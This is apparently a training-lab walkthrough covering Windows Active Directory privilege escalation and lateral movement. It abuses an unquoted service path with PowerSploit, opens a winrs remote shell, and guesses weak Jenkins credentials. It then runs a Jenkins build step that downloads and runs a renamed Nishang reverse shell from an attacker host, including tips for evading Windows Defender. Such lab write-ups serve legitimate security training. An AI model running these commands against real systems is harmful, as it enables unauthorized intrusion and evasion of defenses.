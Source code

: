 # 🆙 Elevate Privileges & gain a shell

Task&#x20;

• Exploit a service on dcorp-studentx and elevate privileges to local administrator.&#x20;

• Identify a machine in the domain where studentx has local administrative access.&#x20;

• Using privileges of a user on Jenkins on 172.16.3.11:8080, get admin privileges on 172.16.3.11 - the dcorp-ci server.

***

For this path we'll use Powerup from PowerSploit module to check for any privilege escalation path. But we could also use WinPEAS.

```
. C:\AD\Tools\PowerUp.ps1
Invoke-AllChecks
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>This is a snip</p></figcaption></figure>

We quickly see the SeviceName is AbyssWebServer:

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Explanation of the Situation

**Unquoted Service Path Vulnerability**

In Windows, services can be configured to run executables. When the path to the executable contains spaces and is not enclosed in quotes, it can lead to a security vulnerability known as an "unquoted service path". This vulnerability allows an attacker to place a malicious executable in a path that the service may inadvertently execute.

The command `Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student613' -Verbose` is used to exploit this vulnerability. Here's a breakdown of what the command does:

* **Invoke-ServiceAbuse**: This is a PowerShell function from the PowerSploit framework, used to manipulate Windows services.
* **-Name 'AbyssWebServer'**: Specifies the name of the service to manipulate.
* **-UserName 'dcorp\student613'**: Specifies the user context under which the command will run. This user should have the necessary permissions to modify the service configuration or its executable path.
* **-Verbose**: Provides detailed output of the actions being performed for debugging or informational purposes.

With this information, we can use the abuse function for Invoke-ServiceAbuse and add our current domain user to the local Administrators group ->

```
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student613' -Verbose
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The command exploits an unquoted service path vulnerability in the following way:

* **Modifies the service path**: Changes the path to execute a system command instead of the service executable.
* **Executes a privileged action**: Runs the command to add a specified user to the Administrators group, elevating the user’s privileges.
* **Restores the service configuration**: Resets the service path to its original value to cover tracks and maintain normal operations.
* **Maintains the service state**: Ensures the service remains in its initial state (stopped) to avoid detection.

Now we are part of the local administrator group. If we just logoff and logon again, and we have local administrator privileges.

He's where we are in our enumeration according a guy on discord:

> you're local admin on the studentvm machine, then you use the Find-PSRemotingLocalAdminAccess to discover you have rights to connect to dcorp-adminsrv (via winrs or PSRemoting)

Next, a good thing to do could be to identify a machine in the domain where the user student613 has local administrative access. For this we can use `Find-PSRemotingLocalAdminAccess.ps1`

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we see that we have Admin access on the dcorp-adminsrv and on the student machine. We can connect to dcorp-adminsrv using winrs as the student user

```
winrs -r:dcorp-adminsrv cmd 
set username 
set computername
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

* `winrs`: Stands for Windows Remote Shell, a command-line tool that allows you to execute commands on a remote machine.
* `-r:dcorp-adminsrv`: Specifies the remote machine to connect to. In this case, `dcorp-adminsrv`.
* `cmd`: Launches the command prompt (`cmd.exe`) on the remote machine.

<figure><img src="../../.gitbook/assets/image (1084).png" alt=""><figcaption></figcaption></figure>

So we were able to get a shell on dcorp-adminsrv

&#x20;

<figure><img src="../../.gitbook/assets/image (1085).png" alt=""><figcaption></figcaption></figure>

***

Now let's try to have fun with a jenkins server without admin access. To do so, we need to have privileges to Configure builds

We start by going to our Jenkins “People” page:

<figure><img src="../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption><p>we can see the users present on the Jenkins instance</p></figcaption></figure>

It's good to know that Jenkins does not have password policies, so admin:admin of felix:felix could be a valid set of credentials

<figure><img src="../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

After fooling around we manage to get an access via the builduser user, he can Configure builds and Add Build Steps which will help us in executing commands.

To get our reverse shell we are going to use a slightly modified version of Invoke-PowerShellTcp from Nishang. We renamed the function InvokePowerShellTcp to Power in the script to bypass Windows Defender.

Nishang: [https://github.com/samratashok/nishang/tree/master](https://github.com/samratashok/nishang/tree/master)

We then go in the following path to create and execute a batch command ->

<figure><img src="../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>

> If using Invoke-PowerShellTcp, make sure to include the function call in the script Power -Reverse - IPAddress 172.16.100.X -Port 443 or append it at the end of the command in Jenkins. Please note that you may always like to rename the function name to something else to avoid detection.
>
> powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress 172.16.100.X -Port 443
>
> or
>
> powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.X -Port 443\
>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We then launch our hfs server (could work with python server, upload the invoke tcp file in the hfs directory and then build our project to trigger the script and create a reverse shell

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
powershell.exe iex (iwr http://172.16.100.13/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.13 -Port 443 
```

<figure><img src="../../.gitbook/assets/image (1086).png" alt=""><figcaption></figcaption></figure>
